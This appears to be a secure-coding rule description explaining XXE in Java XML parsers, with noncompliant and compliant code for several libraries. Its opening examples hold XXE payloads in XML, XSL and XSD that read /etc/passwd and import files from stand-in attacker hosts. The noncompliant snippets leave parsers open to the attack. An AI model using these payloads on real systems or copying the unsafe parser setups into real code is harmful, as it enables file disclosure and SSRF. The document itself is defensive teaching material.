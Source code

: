 https://www.w3.org/TR/xml/[XML specification] allows the use of entities that can be https://www.w3.org/TR/xml/#sec-internal-ent[internal] or https://www.w3.org/TR/xml/#sec-external-ent[external] (file system / network access ...).
Allowing access to external entities in XML parsing could lead to vulnerabilities like confidential file disclosures or https://www.owasp.org/index.php/Server_Side_Request_Forgery[SSRFs].

Example in XML document:

----
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.attacking.com/deleteall">
  <to>&xxe;</to>  
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
----

Example in XSL document:

----
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [    
  <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet> 
----

Example in XSD document:

----
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE schema PUBLIC "-//W3C//DTD XMLSchema 200102//EN" "" [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:import namespace="test" schemaLocation="http://www.attacker.com/evil.xsd"/>
  <xs:element name="note">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="to" type="xs:string"/>
        <xs:element name="from" type="xs:string"/>
        <xs:element name="heading" type="xs:string"/>
        <xs:element name="body" type="xs:string"/>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
----

To protect Java XML Parsers from XXE attacks https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-94ABC0EE-9DC8-44F0-84AD-47ADD5340477[these properties] have been implemented:

* ACCESS_EXTERNAL_DTD: should be set to "" when processing XML/XSD/XLS files (it looks for external DOCTYPEs)
* ACCESS_EXTERNAL_SCHEMA: should be set to "" when processing XML/XSD/XLS files (it looks for external schemalocation ect)
* ACCESS_EXTERNAL_STYLESHEET should be set to "" when processing XLS file (it looks for external imports, includes ect); 

Avoid FEATURE_SECURE_PROCESSING feature to protect from XXE attacks because depending on the implementation:

* it has https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-88B04BE2-35EF-4F61-B4FA-57A0E9102342[no effect] to protect the parser from XXE attacks but helps guard against excessive memory consumption from XML processing.
* or it's just an obscur shortcut (it could set ACCESS_EXTERNAL_DTD and ACCESS_EXTERNAL_SCHEMA to "" but without guarantee).

== Noncompliant Code Examples

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();  // Noncompliant
DocumentBuilder builder = df.newDocumentBuilder();
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();  // Noncompliant
parser.parse(xml, handler);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();  // Noncompliant
XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();  // Noncompliant
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);  // Noncompliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
Validator validator = schema.newValidator();   // Noncompliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----

https://dom4j.github.io/[Dom4j] library:

----
SAXReader xmlReader = new SAXReader(); // Noncompliant by default
Document xmlResponse = xmlReader.read(xml);
----

http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Noncompliant by default
Document document = builder.build(new File(xml));
----

== Compliant Solution

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
DocumentBuilder builder = df.newDocumentBuilder();
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
parser.parse(xml, handler);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");  // compliant

XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, ""); // Compliant
// ACCESS_EXTERNAL_SCHEMA not supported in several TransformerFactory implementations
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); 
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); 
// validators will also inherit of these properties
Validator validator = schema.newValidator();

validator.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");   // Compliant
validator.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");   // Compliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----

For https://dom4j.github.io/[dom4j] library, ACCESS_EXTERNAL_DTD and  ACCESS_EXTERNAL_SCHEMA are not supported, thus a very strict fix is to disable doctype declarations:

----
SAXReader xmlReader = new SAXReader(); 
xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); // Compliant
Document xmlResponse = xmlReader.read(xml);
----

http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
Document document = builder.build(new File(xml));
----

== See

* https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)[OWASP Top 10 2017 Category A4] - XML External Entities (XXE)
* https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#java[OWASP XXE Prevention Cheat Sheet]
* http://cwe.mitre.org/data/definitions/611.html[MITRE, CWE-611] - Information Exposure Through XML External Entity Reference
* http://cwe.mitre.org/data/definitions/827.html[MITRE, CWE-827] - Improper Control of Document Type Definition
